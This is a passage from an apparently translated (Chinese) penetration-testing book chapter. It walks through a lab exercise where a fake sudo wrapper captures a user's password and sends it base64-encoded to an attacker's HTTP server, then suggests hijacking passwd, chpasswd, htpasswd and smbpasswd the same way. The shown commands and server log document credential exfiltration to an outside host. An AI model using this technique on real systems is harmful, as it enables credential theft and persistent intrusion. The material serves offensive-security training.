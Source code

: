 ![](img/pg250.jpg)

图 10-1：使用虚假 sudo 脚本进行密码拦截流程

最后，在您的 Kali 机器上，使用 Python 运行一个简单的 HTTP 服务器：

```
$ **python -m http.server 8080**

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/)... 
```

然后打开另一个终端到 *p-jumpbox-01* (172.16.10.13) 并运行一个 sudo 命令：

```
$ **sudo vi --help**

[sudo] password for backup: 
```

您应该收到泄露的密码：

```
172.16.10.13 - - [22:59:32] "GET **/YmFja3VwCg** HTTP/1.1" 404 -
```

粗体的 base64 编码字符串是 *backup*，即备份用户的密码。

您可以在 *[`github.com/dolevf/Black-Hat-Bash/blob/master/ch10/fake_sudo.sh`](https://github.com/dolevf/Black-Hat-Bash/blob/master/ch10/fake_sudo.sh)* 找到此脚本。

练习 21：劫持密码实用程序

您可以使用类似于我们刚刚执行的 sudo 攻击的方法来劫持其他实用程序。任何与凭据交互的工具都可以帮助您获得持久性，包括以下内容：

passwd 用于更改本地用户密码

chpasswd 用于批量更新密码

htpasswd 用于设置或更改 Apache 基本认证

smbpasswd 用于更改 Samba 用户密码（例如 Active Directory 用户密码）

